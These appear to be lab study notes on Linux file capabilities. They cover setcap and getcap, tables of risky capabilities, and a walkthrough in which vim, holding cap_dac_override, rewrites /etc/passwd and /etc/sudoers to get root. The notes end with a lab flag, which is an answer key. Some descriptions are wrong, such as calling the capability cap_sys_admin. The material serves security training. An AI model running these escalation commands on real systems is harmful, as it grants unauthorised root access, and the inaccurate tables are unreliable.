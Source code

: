 ```yaml
---
description: >-
  A feature in Linux that allows specific privileges to be granted to processes,
  allowing them to perform specific actions that would otherwise be restricted.
---
```


# Capabilities

* more fine-grained control over which processes have access to certain privileges
* more secure than the traditional Unix model of granting privileges to users and groups.

One **common vulnerability** is using capabilities to grant privileges to processes that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information or perform unauthorized actions.

we can use the `setcap` command in Ubuntu to set capabilities for specific executables.

**Set Capability**

```shell-session
sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

set the `cap_net_bind_service` capability for an executable

the binary will be able to perform specific actions that it would not be able to perform without the capabilities.

<table data-header-hidden><thead><tr><th width="192"></th><th></th></tr></thead><tbody><tr><td><strong>Capability</strong></td><td><strong>Desciption</strong></td></tr><tr><td><code>cap_sys_admin</code></td><td>Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.</td></tr><tr><td><code>cap_sys_chroot</code></td><td>Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.</td></tr><tr><td><code>cap_sys_ptrace</code></td><td>Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.</td></tr><tr><td><code>cap_sys_nice</code></td><td>Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.</td></tr><tr><td><code>cap_sys_time</code></td><td>Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.</td></tr><tr><td><code>cap_sys_resource</code></td><td>Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.</td></tr><tr><td><code>cap_sys_module</code></td><td>Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.</td></tr><tr><td><code>cap_net_bind_service</code></td><td>Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.</td></tr></tbody></table>

examples of values that we can use with the `setcap` command, along with a brief description of what they do:

<table data-header-hidden><thead><tr><th width="128"></th><th></th></tr></thead><tbody><tr><td><strong>Capability Values</strong></td><td><strong>Desciption</strong></td></tr><tr><td><code>=</code></td><td>This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.</td></tr><tr><td><code>+ep</code></td><td>This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.</td></tr><tr><td><code>+ei</code></td><td>This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.</td></tr><tr><td><code>+p</code></td><td>This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.</td></tr></tbody></table>

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

<table data-header-hidden><thead><tr><th width="182"></th><th></th></tr></thead><tbody><tr><td><strong>Capability</strong></td><td><strong>Desciption</strong></td></tr><tr><td><code>CAP_SETUID</code></td><td>Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the <code>root</code> user.</td></tr><tr><td><code>CAP_SETGID</code></td><td>Allows to set its effective group ID, which can be used to gain the privileges of another group, including the <code>root</code> group.</td></tr><tr><td><code>CAP_SYS_ADMIN</code></td><td>This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the <code>root</code> user, such as modifying system settings and mounting and unmounting file systems.</td></tr></tbody></table>

## Enumerating Capabilities

**Enumerating Capabilities**

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

## Exploitation

**Exploiting Capabilities**

```shell-session
warawutwir@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

```shell-session
warawutwir@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_sys_admin` capability of the `/usr/bin/vim` binary to modify a system file:

```shell-session
warawutwir@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

```shell-session
warawutwir@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.

## Assessment

Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer.

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption><p>htb-student ALL=(ALL) NOPASSWD: ALL</p></figcaption></figure>

```
htb-student@ubuntu:~$ /usr/bin/vim.basic /etc/sudoers
htb-student@ubuntu:~$ sudo -i
root@ubuntu:~# ls
flag.txt  snap
root@ubuntu:~# cat flag.txt
HTB{c4paBili7i3s_pR1v35c}
```
